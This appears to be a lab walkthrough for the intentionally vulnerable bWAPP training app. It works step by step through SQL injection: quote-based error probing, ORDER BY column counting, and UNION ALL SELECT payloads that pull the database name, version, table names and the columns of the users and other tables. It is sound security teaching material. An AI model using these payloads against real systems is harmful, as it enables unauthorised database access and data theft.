 # bWAPP-Solutions
bWAPP - SQL Injection

We added `'` character to the id in the url to see what kind of output we will get.

`172.16.112.128/bWAPP/sqli_2.php?movie=1'&action=go`

The output depends on the script's quality. If script filters input then no SQL error would be returned. Page will load normally or give a warning like “Attack Spotted, Your IP Address has been recorded” or something similar.  However we have got error like this: 

```
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```

Now we know that there is no any filter. Since we got an error, we are sure that this is SQL injectable and we can try to get some hidden data information from database.
 
##### SQL Injection (Select/GET)

###### Find Column Number of the SQL statement

There are two ways to find number of columns.

1.Using Order by

Order by  statement tell the database how to order the result. For example, the command below will order all the result by ascending order. Also we can change asc to desc.

Select name,age from user Where id=1 Order by user asc

It doesn't matter if column integer or string. Server will automatically order it by checking column type. Order by also can have number instead of column in select statement.  Using this method we can check how many column numbers in table.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 order by 1-- &action=go` and we didn't get error until we enter column number 8.That means we have 7 column in our  movies table.

We put `--` comment character to end of SQL command to get rid of leftover strays. 

2.Using Union

Using union select or union all select statements we can see which columns are outputted to the site. Then we can use to retrieve and output our data. Using union all select can prevent type mismatch and get around queries that use the keyword DISTINCT. Note that, we can also get number of columns by adding numbers to the union statement until page will be displayed normally.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,2,3,4,5,6,7--&action=go`

with “and 1=0” because only want to get data from union all statement. If we just wrote union statement without “and 1=0” then first select would overwrite second one.

Now we know that we can retrieve stolen data using 2,3,5,4 columns and we'll get database name and version using these columns.

###### Find Name of the Current Database

Adding database() to second column we can retrieve database name in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,database(),3,4,5,6,7--&action=go`

###### Find Version of the Database

Adding version() or @@version to second column we can retrieve database version in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),3,4,5,6,7--&action=go`

or 

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),@@version,4,5,6,7--&action=go` 

##### SQL Injection (Search/POST)

###### List Table Names and Number of Records in Each Table of the Database.

All the table names and column names holds in Information_Schema database. To get tables, we would use information_schema like this:

Select table_name from information_schema.tables 

Using this query we can get all of the table names from database. Also column names by changing tables to columns. This only avaliable in version 5 and up. We find out version of the database adding version() to union statement. 

If we type “ma” to the search field we can see that query is something like “Select name From table Where name like '%ma%'. Server looking for value in the table containing “ma” pattern and can have text before and after it.  It could be amazing, Spider-Man or just Man.  We also can know what kind of input program expects from sqli_6.php

Using this SQL query we can get all of table schema and names from information_schema.tables.

`' and 1 = 0 union all select 1,table_schema,table_name,4,5,6,7 from information_schema.tables where 1=0 or 1=1-- '`

There were a lot of database name and table names. The reason is that we added 1=1 to end of query and that means bring all of the database and table names to us. There are more elegant ways to get table names of the database. For example,
```
' and 1=0 union all select 1,table_schema,table_name,4,table_rows,6,7 from information_schema.tables where table_schema = 'bwapp'-- '
```

table_schema was written to title which corresponds column 2, table_name was written to release which corresponds to column 3 and table_rows (records) was written to character which corresponds to column 5.

###### List Column Names of Each Table

We can retrieve column names by writing column names to information_schema instead of table names.  For example, 

Select column_name from information_schema.columns

Let's enter each table name to query to get columns names of table.

1. Blog Table
```
'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'blog' and table_schema = 'bwapp'-- '
```

2. Heroes Table
```
'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'heroes' and table_schema = 'bwapp'-- '
```

3. Movies Table
```
'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'movies' and table_schema = 'bwapp'-- '
```

4. Users Table
```
'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users' and table_schema = 'bwapp'-- '
```








